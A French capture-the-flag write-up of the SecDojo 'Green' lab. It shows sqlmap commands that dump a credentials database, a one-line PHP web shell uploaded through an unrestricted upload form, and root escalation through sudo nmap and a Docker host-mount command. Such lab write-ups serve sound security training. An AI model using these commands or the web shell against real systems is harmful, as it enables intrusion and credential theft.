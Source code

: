# SecDojo: Green

![](images/green.png)

- Ce challenge se compose de deux machines : `upload` et `login`.

![](images/machine.png)

## Scan des machines

Je réalise un scan sur les deux machines.

![](images/nmap_2.png)
![](images/nmap_3.png)

## Login

### Accès à la page de connexion

Je commence par la première, `login`. En accédant au navigateur, je tombe sur la page de connexion.

![](images/signup.png)

### Détection de la vulnérabilité SQLi

La première chose qui me vient à l'esprit est de vérifier la présence d'une vulnérabilité `SQLi`. Après un test simple avec un caractère `'`, je confirme que cette vulnérabilité est effectivement présente.

![](images/sqli.png)

### SQLi

J'utilise ensuite SQLmap pour automatiser l'exploitation de cette vulnérabilité.

```bash 
sqlmap -r req.req   --level=4 --dbs --threads 10
```
![](images/dbs.png)

```bash 
sqlmap -r req.req   --level=4 -D credentials --tables --threads 10
```
![](images/db_table.png)

```bash
sqlmap -r req.req   --level=4 -D credentials -T users --dump --threads 10
```
![](images/dump.png)

Grâce à cet outil, je parviens à extraire la base de données et obtenir les informations d'identification d'un utilisateur `green`, que je peux utiliser pour me connecter via SSH à la machine.

### Accès SSH et Escalade de privilège

![](images/green_connection.png)

Une fois connecté, je constate que l'utilisateur a la possibilité d'exécuter `nmap` avec des privilèges sudo. J'exploite cette situation pour obtenir les droits root sur la machine.

![](images/green_1_root.png)

## Upload

### Analyse du service de téléchargement

Après avoir pris le contrôle de la machine `login`, je passe à l'attaque de la seconde machine, `upload`.
Je découvre rapidement que la machine est vulnérable à une attaque de type file upload.

![](images/file_upload.png)

### Téléchargement de fichiers malveillants

Cette vulnérabilité me permet de télécharger des fichiers sur le serveur sans restrictions adéquates.

![](images/uploaded.png)

Je teste cette fonctionnalité en téléchargeant un fichier PHP malveillant. Mon objectif est de vérifier si je peux utiliser cette faille pour obtenir un accès à distance au serveur. Pour ce faire, je prépare un fichier PHP simple, qui me permettra d'exécuter des commandes sur le serveur.

```php
<?=`$_GET[0]`?> 
```
![](images/green_2.png)

Oubien en téléchargeant un script PHP pour un reverse shell

![](images/rv_shell.png)

je me connect en tant que `green`

![](images/su_g.png)

### Escalade de privilèges via Docker

Je constate ensuite que l'utilisateur green fait partie du groupe docker. Je décide d'exploiter cette situation pour obtenir les privilèges root sur la machine.

En utilisant les permissions du groupe docker, je vais créer un conteneur Docker avec un accès total au système de fichiers hôte. Cela me permettra de monter le répertoire racine (/) du système de la machine cible à l'intérieur du conteneur et d'accéder à tout le système en tant que root

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
![](images/green_2_root.png)





